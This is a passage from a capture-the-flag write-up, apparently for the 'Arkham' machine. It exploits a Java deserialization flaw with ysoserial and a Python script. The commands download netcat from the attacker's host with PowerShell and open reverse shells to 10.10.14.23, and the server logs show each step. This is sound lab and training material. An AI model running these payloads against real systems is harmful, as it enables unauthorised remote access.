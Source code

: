 ```python
    r = post(url, data=data)
    log.success("Done!")

if __name__ == "__main__":
    main()
```

To get a reverse shell, I'll generate a payload that downloads netcat from my machine and store in it c:\programdata. I'm a fan of using netcat whenever possible for these types of challenges so I don't need to debug Powershell payloads, etc. It's certainly not stealthy or elegant but it's good enough for me here.

```
# python boom.py http://10.10.10.130:8080/userSubscribe.faces "powershell -command \\\"Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -outfile \\programdata\\nc.exe\\\"" SnNGOTg3Ni0=
[*] Payload provided: powershell -command \"Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -outfile \programdata\nc.exe\"
[*] Generating the payload with: java -jar ./ysoserial.jar CommonsCollections6 "powershell -command \"Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -outfile \programdata\nc.exe\"" > payload.bin
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections6 (file:/root/htb/arkham/ysoserial.jar) to field java.util.HashSet.map
WARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections6
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
[*] Payload was written to payload.bin, reading it into variable...
[*] Length of payload: 1372 bytes
[*] Sending encoded payload: EpflyBhnLkAS/cI6nexhMqH/tMmK+e+oOSB+iGGStMf3iTfxuPA5PGNGhz6HO2nAZeudvUiuJvqiPb69whWbK2/EFMRkmhTDywwZ5O1KTeC46zdFOsXfLYOq+MjjY+tkAaxKM5Zb/
[...]
[+] Done!
```

The server retrieves the file from my VM:

```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.130 - - [17/Mar/2019 00:11:35] "GET /nc.exe HTTP/1.1" 200 -
```

Then I can execute netcat and get a shell:

```
# python boom.py http://10.10.10.130:8080/userSubscribe.faces "\\programdata\\nc.exe -e cmd.exe 10.10.14.23 4444" SnNGOTg3Ni0=
[*] Payload provided: \programdata\nc.exe -e cmd.exe 10.10.14.23 4444
[*] Generating the payload with: java -jar ./ysoserial.jar CommonsCollections6 "\programdata\nc.exe -e cmd.exe 10.10.14.23 4444" > payload.bin
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections6 (file:/root/htb/arkham/ysoserial.jar) to field java.util.HashSet.map
WARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections6
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
[*] Payload was written to payload.bin, reading it into variable...
[*] Length of payload: 1320 bytes
[*] Sending encoded payload: EpflyBhnLkAS/cI6nexhMqH/tMmK+e+oOSB+iGGStMf3iTfxuPA5PGNGhz6HO2nAZeudvUiuJvqiPb69whWbK2/EFMRkmhTDywwZ5O1KTeC46zdFOsXfLYOq+MjjY+tkAaxKM5Zb/
[...]
[+] Done!
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666
